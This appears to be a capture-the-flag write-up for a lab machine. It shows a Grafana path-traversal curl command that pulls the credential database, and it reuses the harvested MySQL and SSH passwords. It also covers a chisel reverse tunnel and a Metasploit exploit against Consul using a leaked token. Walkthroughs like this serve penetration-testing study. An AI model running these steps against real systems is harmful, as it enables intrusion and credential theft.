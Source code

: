 # **1. Enumeration**
Open ports
 

80 tcp syn-ack ttl 63 Apache httpd 2.4.41 ((Ubuntu)) 
22 tcp ssh
3000 tcp 
3306 tcp mysql mSQL 8.0.30-0ubuntu0.20.04.2

Checking out the website

## 1.1 port 3000 enumeration 
checking out port 3000 and it looks like another web page
![[Pasted image 20221115234036.png]]
googling the version looks like there is a common vulnerability for grafana 8.0.0 to 8.3.0
![[Pasted image 20221115234314.png]]
# 2. Exploit
copying the list in the python script because the script wasn't working and using burp intruder mode 
![[Pasted image 20221115234402.png]]
![[Pasted image 20221115234412.png]]
![[Pasted image 20221115234426.png]]
and looks like we got a hit on most of the list 
we have 2 users
developer and root
![[Pasted image 20221115234555.png]]
https://community.grafana.com/t/whitch-file-is-the-new-account-information-stored/701
found that dabatase stored in /var/lib/grafana/grafana.db
SQLite
https://github.com/jas502n/Grafana-CVE-2021-43798
password is hashed and stored here
![[Pasted image 20221116001022.png]]
dad0e56900c3be93ce114804726f78c91e82a0f0f0f6b248da419a0cac6157e02806498f1f784146715caee5bad1506ab0690X27trve2uf960YdtaMF2022-03-13 20:26:452022-09-01 22:39:382022-09-14 16:44:19
secret key: SW2YcwTIb9zpOOhoPsMm
![[Pasted image 20221116001745.png]]

![[Pasted image 20221116004810.png]]


# 2. Foothold
found password in plain text in grafana.ini


grafana:admin:messageInABottle685427
![[Pasted image 20221116004901.png]]
didn't find anything
heading back to download sqlite database and analyz it using sqlitebrowser 
```
curl --path-as-is "ambassador.htb:3000/public/plugins/alertlist/../../../../../../../../../../../../../var/lib/grafana/grafana.db" -o grafana.db
```

found mysql creds
![[Pasted image 20221116013740.png]]
mysql:grafana:dontStandSoCloseToMe63221!

```bash
mysql -u grafana -p'dontStandSoCloseToMe63221!' -h ambassador.htb -P 3306 
```
enumurating the database we found the user developer hashed password in base64
![[Pasted image 20221116014840.png]]

![[Pasted image 20221116014821.png]]


# 3. privesc 
ssh :developer:anEnglishManInNewYork027468
![[Pasted image 20221116015022.png]]
#userflag 44a566c885f922ea0dfc70d29314a009

![[Pasted image 20221116020441.png]]
didn't find much 
![[Pasted image 20221116022609.png]]
found readable .git repo owned by root
![[Pasted image 20221116022629.png]]
```bash
git log
```
to see latest commits
![[Pasted image 20221116023303.png]]
Consul is running on the machine on port 8500 and we have also a TOKEN
consul_token:bb03b43b-1d81-d62b-24b5-39540ee469b5
 linpeas showed that earlier also
https://developer.hashicorp.com/consul/docs/intro
![[Pasted image 20221116024049.png]]
Looking for exploits for Consul and we have 2 exploits on metasploit
but it doesn't work so we can try to pivot to chisel and reverse tunnel the service on our machine

on our machine
![[Pasted image 20221116025121.png]]
```
chisel server --reverse -p 9001

```

on our target


![[Pasted image 20221116025549.png]]
```
client 10.10.16.12:9001 R:8500:127.0.0.1:8500

```

We can now access the Consul on our machine and exploit it with metasploit

![[Pasted image 20221116025556.png]]

setting metasploit options (IP PORT ACL_TOKEN) and we run the exploit 
![[Pasted image 20221116032558.png]]


